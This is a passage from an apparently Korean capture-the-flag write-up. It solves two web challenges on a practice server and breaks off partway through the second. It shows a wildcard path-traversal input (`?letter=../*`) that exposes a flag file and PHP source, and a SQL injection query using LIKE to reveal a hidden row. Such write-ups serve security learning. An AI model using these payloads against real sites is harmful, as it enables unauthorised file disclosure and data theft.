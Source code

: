 `?letter=`에 영문을 입력하지 않고 적당히 우회하면 되는 문제입니다. 정직하게 `../flag.php`를 쓰려니 너무 길고 이미 파일 이름에 알파벳이 포함되어 있습니다.

와일드카드를 써 봅시다. `letter`에 `../*`를 넣습니다.

`http://web-prob.dkserver.wo.tc/letter_4f1ad94372c166c3cb9632ed5041849a/?letter=../*`

소스를 봅니다:

``` php
==&gt; ./letter/../css &lt;==

==&gt; ./letter/../flag.php &lt;==
<!--?php
/********************************
*                               *
*                               *
*    Flag:{snow_is_commmming}   *
*                               *
*                               *
********************************/
?-->


==&gt; ./letter/../images &lt;==

==&gt; ./letter/../inc &lt;==

==&gt; ./letter/../index.php &lt;==
<!--?php include("inc/5f0c2baaa2c0426eed9a958e3fe0ff94.php"); // header ?-->
<!--?php $page = $_GET['page'];
if($page == "photo"){ ?-->
```

Flag는 `snow_is_commmming`입니다.

## <a id="a-letter-to-her-2"></a>A Letter To Her 2 - WEB500

> [Link](http://web-prob.dkserver.wo.tc/sqli_962a035aacf08966ffc7610957ac0c29/)

Clue를 봅시다:

``` plain
CREATE TABLE `table_name` (

`no` int NOT NULL,

`letter` varchar(256) COLLATE 'utf32_unicode_ci' NOT NULL

)
```

Letter는 아까와 같지만 4번 항목만 `Secret :)`이라는 메시지와 함께 가려져 있습니다. 일단 괄호를 쓸 수 없습니다. 시도 끝에 like를 사용한 쿼리를 하나 만들었습니다:

``` plain
?letter=-1 or letter like "%%" and no=4
```

